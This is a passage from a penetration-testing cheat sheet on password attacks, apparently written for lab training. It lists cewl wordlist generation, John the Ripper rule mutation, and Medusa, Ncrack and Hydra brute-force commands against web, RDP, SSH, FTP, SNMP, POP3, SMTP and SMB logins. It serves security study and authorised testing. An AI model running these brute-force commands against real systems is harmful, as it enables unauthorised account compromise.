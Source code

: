     -   Password Profiling

        -   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

    -   Password Mutating

        -   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

    -   Medusa

        -   Medusa, initiated against an htaccess protected web
            directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

    -   Ncrack

        -   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

    -   Hydra

        -   Hydra brute force against SNMP  
        
            `hydra -P password-file.txt -v $ip snmp`

        -   Hydra FTP known user and rockyou password list  
        
            `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

        -   Hydra SSH using list of users and passwords  
        
            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        -   Hydra SSH using a known password and a username list  
        
            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        -   Hydra SSH Against Known username on port 22
        
            `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

        -   Hydra POP3 Brute Force  
        
            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        -   Hydra SMTP Brute Force  
        
            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        -   Hydra attack http get 401 login with a dictionary  
        
            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`
            
        -   Hydra attack Windows Remote Desktop with rockyou
        
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`
            
        -   Hydra brute force SMB user with rockyou:
        
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`
            